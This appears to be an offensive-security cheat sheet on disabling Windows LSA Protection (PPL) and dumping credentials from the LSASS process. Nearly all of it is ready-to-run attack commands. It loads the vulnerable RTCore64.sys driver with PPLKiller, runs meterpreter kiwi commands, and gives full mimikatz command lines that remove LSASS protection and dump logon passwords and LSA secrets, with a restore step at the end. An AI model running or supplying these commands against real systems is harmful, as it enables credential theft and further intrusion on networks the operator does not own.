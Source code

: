 ### <ins>Check if PPL is enabled</ins>
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

## Disable PPL using PPLKiller

Make sure the session you are running with has SYSTEM privleges.
- Place the driver RTCore64.sys at: `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Now, we will need to install the driver:
- `.\PPLKiller /installDriver`

Then we will disable LSA Protection: 
- `.\PPLKiller.exe /disableLSAProtection`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

## Disable PPL using mimikatz
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
